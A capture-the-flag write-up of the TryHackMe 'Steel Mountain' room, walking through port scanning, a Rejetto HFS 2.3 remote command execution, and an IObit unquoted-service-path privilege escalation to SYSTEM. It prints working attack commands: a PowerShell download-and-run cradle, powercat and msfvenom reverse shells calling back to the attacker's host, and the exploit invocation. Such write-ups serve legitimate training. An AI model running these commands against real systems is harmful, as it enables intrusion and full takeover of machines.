



# TryHackMe Steel Mountain

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|[Steel Mountain](https://tryhackme.com/room/steelmountain)|
|---|---|
|**Created by**|[tryhackme](https://tryhackme.com/p/tryhackme)|
|**Date release**| 547 days old (/4/2021)|

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.106.253
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 80,135,139,445,3389,5985,8080,47001,49152,49153,49154,49155,49156,49163,49164

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.106.253 -p80,135,139,445,3389,5985,8080,47001,49152,49153,49154,49155,49156,49163,49164
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 07:46 +07
Nmap scan report for 10.10.106.253
Host is up (0.24s latency).

PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2021-04-11T00:42:38
|_Not valid after:  2021-10-11T00:42:38
|_ssl-date: 2021-04-12T00:48:03+00:00; -1s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
49164/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:6d:24:59:57:b7 (unknown)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-12T00:47:57
|_  start_date: 2021-04-12T00:42:31

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.47 seconds
```

### Microsoft IIS httpd 8.5

Port 80 is web page showing image of `Employee of the month`.



List of the hidden in web application port 80

```
[+] Files and directories
gobuster dir -k -u http://10.10.106.253:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
/img                  (Status: 301) [Size: 151] [--> http://10.10.106.253:80/img/]
```

Access denied when I go to uri '/img'



### HttpFileServer httpd 2.3 8080

At port 8080, Service HttpFileServer httpd 2.3 is running.



Try to find public exploit for this service.

```
┌──(Hades㉿10.11.32.198)-[1.9:27.7]~
└─$ searchsploit HttpFileServer 2.3
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)  | windows/webapps/49125.py
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Server Message Block

In SMB service, using `smbmap` and `smbclient` to enum, but cannot authentication.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.106.253 -u guest

[!] Authentication error on 10.10.106.253
smbclient -L 10.10.106.253
session setup failed: NT_STATUS_ACCESS_DENIED
```

## Foothold

### Rejetto HttpFileServer RCE

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/steelmountain)

Using powercat to create file shell.ps1

```
PS <snip> cp /home/kali/payloads/tools/powercat.ps1 .
PS <snip> . ./powercat.ps1
PS <snip> powercat -c 10.11.32.198 -p 443 -e cmd.exe -g > shell.ps1
```

Open httpserver in kali machine using python3

```
┌──(Hades㉿10.11.32.198)-[1.9:26.8]~/walkthrough/tryhackme/steelmountain
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.232.100 - - [10/Apr/2021 01:07:07] "GET /shell.ps1 HTTP/1.1" 200 -
```

Execute file `49125.py` to download and run file shell.ps1

```
┌──(Hades㉿10.11.32.198)-[1.9:27.2]~/walkthrough/tryhackme/steelmountain
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.32.198/shell.ps1')"

┌──(Hades㉿10.11.32.198)-[1.9:27.2]~/walkthrough/tryhackme/steelmountain
└─$ python3 49125.py 10.10.232.100 8080 "$cmd"                                                                   
http://10.10.232.100:8080/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A//10.11.32.198/shell.ps1%27%29.}
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.11.32.198)-[1.9:27.3]~
└─$ sudo nc -nvlp 443               
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.232.100] 49346
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill
```

Reverse using powershell encode

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/steelmountain)

Create ecoded powershell payload and copy it to clipboard

```
┌──(Hades㉿10.11.32.198)-[1.1:22.3]~/walkthrough/tryhackme/steelmountain
└─$ cat pwsh.ps1 | iconv -t UTF-16LE | base64 -w 0 | cs
```

Sent and execute payload

```
┌──(Hades㉿10.11.32.198)-[1.1:21.6]~/walkthrough/tryhackme/steelmountain
└─$ python3 49125.py 10.10.106.253 8080 "powershell -enc $(vs)" > /dev/null
```

At listener, I have reverse shell

```
┌──(Hades㉿10.11.32.198)-[1.1:21.9]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.106.253] 49467

PS C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> whoami
steelmountain\bill
```

## Privilege Escalation

### Local Enumeration

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/steelmountain)

After enum local machine, I saw that the application `IObit` has been installed.

```
PS C:\Program Files (x86)> dir | GET-ACL
<snip> 
IObit                                   BUILTIN\Administrators                  STEELMOUNTAIN\bill Allow  Write, Rea...
<snip>
```

Search public exploit for `IObit` with searchsploit.

```
┌──(Hades㉿10.11.32.198)-[1.8:26.8]~
└─$ searchsploit IObit
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
IObit Advanced SystemCare 10.0.2 - Unquoted Service Path Pri | windows/local/40577.txt
<snip>
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Based on exploit `windows/local/40577.txt` and folder IObit with permission `STEELMOUNTAIN\bill Allow  Write, Rea...`, I can go to system privilege by create file name to break space when IObit application start.

```
PS C:\Program Files (x86)> dir IObit
<snip>                                                                    
d----         4/11/2021   5:43 PM            Advanced SystemCare                                                       
d----         9/26/2019  10:35 PM            IObit Uninstaller                                                         
d----         9/26/2019   8:18 AM            LiveUpdate
```

Checking service running in the system

```
PS C:\Program Files (x86)> get-service

Status   Name               DisplayName                           
------   ----               -----------                           
Running  AdvancedSystemC... Advanced SystemCare Service 9
<snip>
```

Testing restart service `Advanced SystemCare Service 9`

```
PS C:\> cmd /c sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\> cmd /c sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2272
        FLAGS              :
```

### Unquoted Service Path

Create file reverse shell `Advanced.exe` with msfvenom

```
┌──(Hades㉿10.11.32.198)-[0.7:21.4]~
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.32.198 LPORT=443 -f exe -o Advanced.exe
```

Download file `Advanced.exe` to folder `IObit` in windows machine.

```
PS C:\Program Files (x86)\IObit> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.32.198/Advanced.exe','C:/Program Files (x86)/IObit/Advanced.exe')"
PS C:\Program Files (x86)\IObit> dir


    Directory: C:\Program Files (x86)\IObit


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         4/11/2021   7:25 PM            Advanced SystemCare
d----         9/26/2019  10:35 PM            IObit Uninstaller
d----         9/26/2019   8:18 AM            LiveUpdate
-a---         4/11/2021   7:30 PM      73802 Advanced.exe
```

Restart service `Advanced SystemCare Service 9` and at the listener, I got system shell.

```
┌──(Hades㉿10.11.32.198)-[0.7:21.6]~/walkthrough/tryhackme/steelmountain
└─$ sudo nc -nvlp 443
connect to [10.11.32.198] from (UNKNOWN) [10.10.106.253] 49874
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```